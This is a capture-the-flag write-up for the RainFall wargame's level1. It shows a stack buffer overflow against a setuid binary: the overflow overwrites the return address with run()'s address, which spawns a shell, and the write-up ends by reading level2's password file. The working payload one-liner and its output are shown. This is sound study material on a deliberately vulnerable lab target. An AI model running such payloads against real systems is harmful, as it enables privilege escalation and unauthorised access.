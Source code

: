 level1
======

*	We spawn with a [level1](source/level1) executable
	```console
	level1@RainFall:~$ ls -l
	total 732
	level1@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
	level1@RainFall:~$ ./level1
	█
	level1@RainFall:~$ ./level1 test
	█
	```
*	So we get an endless loop here, let's do as usual
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level1@192.168.29.4:~/level1 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh
	```
*	When we take a look at the main it looks like I was wrong, the code use the function `gets()` which led me to think that the program is reading the input (My mistake here, I should've at least tried to add something)
*	We also have another function called `run()`, this one uses `fwrite()`.
*	Looking deeper into gdb, we can see that it takes $eax=`("Good... Wait what?\n")` and then it calls `system()` to execute `/bin/sh`
*	So, now we are dealing with a [Buffer Overflow Attack](https://www.imperva.com/learn/application-security/buffer-overflow/)
*	Here we can see the buffer is sized `80` bytes
	```assembly
	sub    $0x50,%esp
	```
*	Instead of using python I made a little [program](source/randomStr.sh) in shell to get a random string of `x` char
	```console
	level1@RainFall:~$ echo str > /tmp/exlpoit
	```
*	Since this program is more of a buffer *over-READ* issue, we need to put our exploit in a file instead of doing it on the terminal directly
	```console
	level1@RainFall:~$ gdb ./level1
	(gdb) r < /tmp/exploit
	Starting program: /home/user/level1/level1 < /tmp/exploit

	Program received signal SIGSEGV, Segmentation fault.
	0x63413563 in ?? ()
	```
*	I found this [website](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to get calculate the offset and it is `76`
*	Our exploit will be the usgin the run function.
	```assembly
	08048444 <run>:
	```
*	In many modern systems, including Intel x86 and x86_64 architectures, little-endian is the prevalent byte order. So we add `\x44\x84\x04\x08` in the end of the exploit.
*	Let's try this, this time I use python to make this more readable:
	```console
	level1@RainFall:~$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit
	level1@RainFall:~$ cat /tmp/exploit | ./level1 
	Good... Wait what?
	Segmentation fault (core dumped)
	```
	Make sure to use `echo -e` if you don't use python print because the memory part won't be interpreted as binary data.
*	The issue here is that the `/bin/sh` will shutdown because it is trying to read `STDIN`. We have to make sure cat, there is many ways to make sure it keeps reading 
	```
	level1@RainFall:~$ (cat /tmp/exploit; cat) | ./level1
	level1@RainFall:~$ cat /tmp/exploit - | ./level1
	Good... Wait what?
	whoami
	level2
	cat /home/user/level2/.pass
	53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
	```